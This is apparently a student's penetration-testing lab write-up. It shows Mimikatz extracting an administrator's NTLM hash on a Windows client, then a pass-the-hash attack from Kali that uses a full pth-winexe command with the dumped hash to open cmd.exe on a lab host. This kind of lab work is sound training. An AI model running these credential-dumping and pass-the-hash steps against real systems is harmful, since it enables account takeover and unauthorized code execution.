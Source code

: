 ### 19.4.2.1 Exercises
#### 1. Use Mimikatz to extract the password hash of an administrative user from the Windows client.

![image-20200725113333336](.19.4.2.1.assets/image-20200725113333336.png)

Obtained NTLM hash for user `administrator` which was `2892d26cdf84d7a70e2eb3b9f05c425e`

#### 2. Reuse the password hash to perform a pass-the-hash attack from your Kali system and obtain code execution on your Windows client.

Using the above NTLM hash along with the 'no password' LM hash of  `aad3b435b51404eeaad3b435b51404ee`, formed the following PTH command:

```bash
pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //192.168.216.10 cmd.exe
```

![image-20200725114141271](.19.4.2.1.assets/image-20200725114141271.png)